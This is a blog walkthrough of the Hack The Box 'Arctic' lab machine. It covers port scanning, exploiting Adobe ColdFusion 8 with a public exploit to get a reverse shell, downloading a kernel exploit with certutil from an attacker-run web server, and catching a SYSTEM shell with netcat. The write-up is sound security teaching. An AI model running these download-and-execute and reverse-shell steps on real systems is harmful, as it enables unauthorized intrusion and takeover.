 ```yaml
---
title: "Hack The Box Arctic - Walkthrough"
datePublished: Mon Nov 29 2021 15:25:57 GMT+0000 (Coordinated Universal Time)
cuid: ckwktpwjo0giwgns1940m7kn0
slug: hack-the-box-arctic-walkthrough
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1638191848280/mBJJ3-ucT.png
ogImage: https://cdn.hashnode.com/res/hashnode/image/upload/v1638199543097/0b-LblyLH.png
tags: hacking

---
```


Welcome to the first walkthrough on this blog - Today we will focus on Arctic - a Windows Box that will test your methodology and gives you a chance to grow as a penetration tester / ethical hacker. 

The way I approach CTF machines is very much a go to grow mentality. When I started 6 months ago, I did not know how to collect the necessary information to enumerate, let alone compromise any machine/environment. Trial and error is the best friend during this journey and I will share my errors with you, so you don't have to necessarily make all the same mistakes I did. 

# Mindset
Your mental model is the most important thing you potentially don't have yet but might need to develop. 
It is about abstracting the things you want to explore - e.g. if you find a webserver and that one is also a mailserver in your head you could create a mental model of the attack surface - what can you try, which possibilities for compromise are you aware of and how can you exploit these potentially. 
Follow your methodology, it is the strongest supporter for you. 

if you want to follow my methodology, feel free to copy this this template: 
https://maikroservice.notion.site/CTF-TEMPLATE-1d8ada6a7df441e9a5976e51c1d74fac

## Ping
The first thing I normally do is to check the ICMP response by pinging the box. The result you receive back will show potentially valuable information e.g. the TTL (time to live), if this is around 127 it is a windows box most likely, while numbers around 64 indicate a linux based machine.
```bash
ping 10.10.10.11
``` 

This box does not respond to ping - *Windows boxes sometimes don't respond to ping unless it is enabled AFAIK, so probably this is the reason why we do not get a response here.*

## Port Scan
Next up is the classical port scan, you can use nmap or rustscan or other tools to identify open ports. This scan is usually done in an incremental manner, nmap scans the top 1000 ports by default and with the flags used below will enumerate Versions (-sV) and run default scripts (-sC), these two can be combined to -sCV. 
T4 indicates the speed with which the scan is conducted, it goes from T1 (slow) to T5 (fast).
Since the box does not respond to ping we use the -Pn option to skip the host discovery part of the scan. 
Finally, the output should be saved to a file in a "normal" format and this is achieved by using -oN followed by the file name - I usually use \*.initial for the top 1000 scan, \*.full for the full 65535 TCP ports and \*.udp for UDP scans. 

```bash
nmap -sCV -T4 -Pn 10.10.10.11 -oN arctic.initial
``` 

We get back a result with three open ports, two out of those are fairly common (135 & 49154, both associated with Windows remote procedure call - RPC) - from experience those are fairly rarely involved in exploits directly so lets first focus on **low hanging fruits**, namely port 8500. 
Whenever I see a uncommon port as the only source I open it in my browser via `<ip>:<port>` - so in this case `10.10.10.11:8500`, which reveals Adobe Coldfusion. Let's check if there are any known exploits for that. 

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-16 19:41 CEST
Nmap scan report for 10.10.10.11
Host is up (0.038s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
``` 

## Service Enumeration / Exploit 
We did find Adobe Coldfusion (v8) via the last step and use exploit-db.com to check for any known exploits. We find https://www.exploit-db.com/exploits/50057 and modify it to include our virtual network interface IP (usually accessible via `ifconfig tun0`).

```bash
lhost = "10.10.16.4"
lport = 4444
rhost = "10.10.10.11"
rport = 8500
```

Once we did that we can fire the exploit and catch a reverse shell as `tolis` and find the user.txt flag on their Desktop.
```
c:\Users\tolis\Desktop>dir
dir
user.txt
```

## Post Exploitation
on the machine we are greeted with a command prompt of a very old windows 

```
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.
```

This indicates a kernel exploit - we can check for some and in the end find MS10-059 or Chimichurri (https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059: Chimichurri/Compiled) as a suitable candidate. Lets download the precompiled binary and upload it to the target.

A suitable method to do that is a python webserver on your local machine, I use the python 3 version via:
```bash
python3 -m http.server 8080
```
and then 
```
certutil -urlcache -f http://<myMachineIP>:8080/chimichurri.exe
```
to download the file on the target machine. Typical folders where this can be executed are the Document/Download folder of the compromised user and the c:\windows\temp folder. 
Other options would be impacket's smbserver or smtp/sftp (we will explore the impacket-smbserver on the next machine)  

Back to Chimichurri - The exploit, when executed targets the Tracing Service of Windows (more details here: https://itm4n.github.io/chimichurri-reloaded/) and is able to elevate out privileges to NT Authority\System. 
Let's try that and provide our local IP and a port to catch the shell on -
```bash
Chimichurri.exe 10.10.14.18 9001
/Chimichurri/-->This exploit gives you a Local System shell 
/Chimichurri/-->Changing registry values...
/Chimichurri/-->Got SYSTEM token...
/Chimichurri/-->Running reverse shell...
/Chimichurri/-->Restoring default registry values...
```

We can now read the `root.txt` and have rooted the box. Good job. 
```
nc -lvnp 9001                          
listening on [any] 9001 ...            
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.11] 49440                          
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Users\tolis\AppData\Local\Temp>whoami
whoami
nt authority\system
C:\Users\Administrator\Desktop>dir
dir
root.txt
```